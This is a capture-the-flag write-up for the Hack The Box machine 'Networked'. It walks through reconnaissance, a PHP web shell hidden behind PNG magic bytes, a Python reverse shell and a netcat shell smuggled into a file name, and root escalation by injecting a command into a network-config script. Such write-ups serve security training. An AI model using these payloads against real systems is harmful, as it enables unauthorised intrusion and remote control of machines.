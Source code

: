 `# HTB: Networked Detailed Exploitation  ## Quick Summary  Networked is an Easy difficulty Linux box with vulnerabilities in file upload, leading to code execution, and command injection via a user script, which can be leveraged to execute commands as root.  ## Phase 1: Reconnaissance  **Nmap Scan:** The initial scan identified open ports and services.  ```plaintext nmap -sV -sT -sC -o nmapinitial networked.htb`

**Output:**

- Port 22: SSH (OpenSSH 7.4)
- Port 80: HTTP (Apache 2.4.6 with PHP 5.4.16)

## Phase 2: Web Enumeration

**Gobuster Scan:** We used Gobuster to identify directories.

plaintext

Copy code

`gobuster -u http://networked.htb/ -w /usr/share/wordlists/dirb/common.txt`

**Interesting Directories:**

- `/uploads`
- `/backup`

**Backup Directory:** Downloaded a tar archive from `/backup` containing the website's files.

plaintext

Copy code

`wget http://networked.htb/backup/backup.tar mkdir backup cd backup tar xvf ../backup.tar`

**Files Extracted:**

- `index.php`
- `lib.php`
- `photos.php`
- `upload.php`

## Phase 3: Initial Shell as Apache

**File Upload Vulnerability:** The `upload.php` script allowed image uploads but filtered by extension and MIME type.

**Bypassing Filters:**

1. Add PNG magic bytes to a PHP shell.
2. Upload the modified file.

php

Copy code

`<?php  system($_REQUEST['cmd']);  ?>`

**Magic Bytes for PNG:** `89 50 4E 47 0D 0A 1A 0A`

**Steps:**

1. Create a base image (`original.png`).
2. Inject PHP code into a copied image (`test.php.png`).

plaintext

Copy code

`cp original.png test.php.png echo -e '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A<?php system($_REQUEST["cmd"]); ?>' >> test.php.png`

**Result:** Viewing `test.php.png` in the browser executed the PHP code and revealed the user as `apache`.

**Reverse Shell:** Injected a reverse shell payload into another image (`shell.php.png`).

plaintext

Copy code

`cp original.png shell.php.png echo -e '\x89\x50\x4E\x47\x0D\x0A\x1A\x0A<?php system("python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.xx.xx\",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn(\"/bin/bash\");\'"); ?>' >> shell.php.png`

- Set up a Netcat listener and uploaded the image to gain a shell as `apache`.

plaintext

Copy code

`nc -lvnp 1337`

## Phase 4: Shell as Guly

**Command Injection in check_attack.php:** Found `check_attack.php` executed as user `guly` every 3 minutes via a cron job.

**Crontab:**

plaintext

Copy code

`*/3 * * * * php /home/guly/check_attack.php`

**check_attack.php Contents:**

php

Copy code

`<?php require '/var/www/html/lib.php'; $path = '/var/www/html/uploads/'; $logpath = '/tmp/attack.log'; $to = 'guly'; $msg= ''; $headers = "X-Mailer: check_attack.php\r\n";  $files = array(); $files = preg_grep('/^([^.])/', scandir($path));  foreach ($files as $key => $value) {     $msg='';      if ($value == 'index.html') {         continue;     }      list ($name,$ext) = getnameCheck($value);     $check = check_ip($name,$value);      if (!($check[0])) {         echo "attack!\n";         file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);          exec("rm -f $logpath");         exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");         echo "rm -f $path$value\n";         mail($to, $msg, $msg, $headers, "-F$value");     } } ?>`

**Exploiting Command Injection:** The script used `exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");` to delete files. Injected a reverse shell command by creating a malicious file name.

plaintext

Copy code

`cd /var/www/html/uploads touch '; nc 10.10.xx.xx 1338 -c bash'`

- Set up another Netcat listener to catch the shell as `guly`.

plaintext

Copy code

`nc -lvnp 1338`

**Result:** Gained a shell as `guly`.

## Phase 5: Privilege Escalation to Root

**Examining Sudo Privileges:** Found that `guly` can execute `/usr/local/sbin/changename.sh` as root without a password.

plaintext

Copy code

`sudo -l`

**changename.sh Contents:**

bash

Copy code

`#!/bin/bash -p  cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF DEVICE=guly0 ONBOOT=no NM_CONTROLLED=no EoF  regexp="^[a-zA-Z0-9_\ /-]+$"  for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do     echo "interface $var:"     read x     while [[ ! $x =~ $regexp ]]; do         echo "wrong input, try again"         echo "interface $var:"         read x     done     echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly done  /sbin/ifup guly0`

**Explanation:**

- **Script Function:** The script creates a network configuration file for the interface `guly0` and then activates it using `ifup guly0`.
- **User Input Validation:** The user input for various network configuration options is validated to allow only alphanumeric characters, slashes, or dashes.
- **Command Injection Vulnerability:** Despite the validation, network configuration scripts on CentOS can be vulnerable to command injection due to the way attribute values are handled. The script reads user input and directly writes it to the configuration file, which is then sourced by the network service, leading to execution of anything after a space.

**Exploiting the Vulnerability:**

- By injecting `/bin/bash` through the NAME parameter, we can execute arbitrary commands as root.

**Steps:**

1. Execute `changename.sh` with elevated privileges.
2. Inject a command through the NAME parameter.

plaintext

Copy code

`sudo /usr/local/sbin/changename.sh interface NAME: test; bash interface PROXY_METHOD: test interface BROWSER_ONLY: test interface BOOTPROTO: test`

**Result:** The injected command (`bash`) is executed with root privileges, giving us a root shell.

**Verification:**

plaintext

Copy code

`whoami root id`

## Summary

Through a series of vulnerabilities, including file upload RCE, command injection via filenames, and script exploitation, we escalated our privileges from `apache` to `guly`, and finally to `root`, successfully owning the box
